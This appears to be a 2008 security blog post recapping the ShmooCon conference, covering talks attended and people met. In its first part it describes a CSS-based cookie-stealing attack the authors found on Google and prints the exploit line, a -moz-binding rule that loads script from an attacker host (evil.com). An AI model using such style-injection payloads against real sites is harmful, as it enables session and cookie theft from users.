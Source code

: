 author: Marcin
disqus_id: 58089062-6be1-477b-80c5-a74bc9b91b24
disqus_url: http://www.tssci-security.com/archives/2008/02/19/back-from-dc-shmoocon-2008-recap/
mod_date: 2008-02-21 14:22:16
parent: 0
post_id: 378
post_type: post
pub_date: 2008-02-19 20:26:27
public: 'yes'
slug: back-from-dc-shmoocon-2008-recap
tags:
- Conferences
- People
- Security
template: post.html
title: Back from D.C. -- ShmooCon 2008 recap

Back from D.C. -- ShmooCon 2008 recap
#####################################

We're back from a great weekend in Washington, D.C. at ShmooCon 08'. Dre
and I arrived Thursday night just in time for the bar to close and with
having no hotel room reserved, we were in for a long night.
Interestingly enough though, at around 5am, we found that we were able
to modify the look of a Google page through a CSS stylesheet we
controled. Using the ``tr:first-child td`` CSS property, we could do all
sorts of things to Google's content, such as ``display:none`` and
changing the color.

We had plans to meet up with `Arshan of
omg.wtf.bbq <http://i8jesus.com/>`_ (and author of
`Anti-Samy <http://www.owasp.org/index.php/Category:OWASP_AntiSamy_Project>`_)
later that morning, so he invited us back to the Aspect Security office
to hang out with the team. Jeff Williams, chairman of the OWASP board
gave us a tour and we even had the chance to see the OWASP wiki, quietly
humming away in its rack. So beautiful.. We showed off our finding to
Arshan and Jeff to get some ideas on where to take it. I went in
thinking we should try out ``-moz-binding:url()``, so Arshan quickly
wrote up some JavaScript that would steal Google cookies. We tried it
out and it worked -- the working exploit affected Google through the
following CSS property:

``tr:first-child td {-moz-binding:url("http://evil.com/xssmoz.xml#xss");}``

Later that evening, we met up with `Romain
Gaucher <http://rgaucher.info/>`_, Jon Rose, Brian Holyfield and a bunch
of other people to go out drinking. We ended up discussing our talk a
lot that night and some of the work we've all been doing. So much cool
stuff, I can barely wrap my head around it all.

On Saturday, we hung out with Joe from `Learn Security
Online <http://www.learnsecurityonline.com/>`_ who gave me some cool
tips on VoIP pen-testing, and which conveniently lead to seeing Jason
Ostrom and John Kindervag (the VoIP hacker clowns) talk about
penetration testing VoIP networks, something that'll come in real handy
over the next couple weeks for me.

I shortly met up with
`Hoff <http://rationalsecurity.typepad.com/blog/>`_ for a bit, going to
the talk on how databases are so hard to secure... After about five
minutes I followed Hoff out and went to TL1 Device Security, which was
pretty much over! The discussions though were great, and I got some good
information out of it, having gone in not even knowing wtf a TL1 is.
Basically a `TL1 is SNMP for
telecoms <http://en.wikipedia.org/wiki/TL1>`_ -- think SCADA without the
controls, and only worse. eek

The best talk of the day was hands down, Rohit and Nish's talk on Using
Aspect Oriented Programming to Prevent Application Attacks. What's nice
about AOP is the ability to secure legacy code without having to touch
the source. It would be nice to implement AOP along with building
security in throughout the entire Secure SDLC. We got to talking with
Rohit and Nish, along with their friend Hugo throughout the evening.

After our talk Sunday, `Chris Gates and
Dean <http://carnal0wnage.blogspot.com/>`_ came up to us to say hello.
Like they said on their
`blog <http://carnal0wnage.blogspot.com/2008/02/shmoocon-2008-my-002_17.html>`_,
it's nice finally putting faces to names. Anyways, that's pretty much it
for this weekend. I'm working on getting our presentation content up
soon (before the night's over), so stay tuned for that.
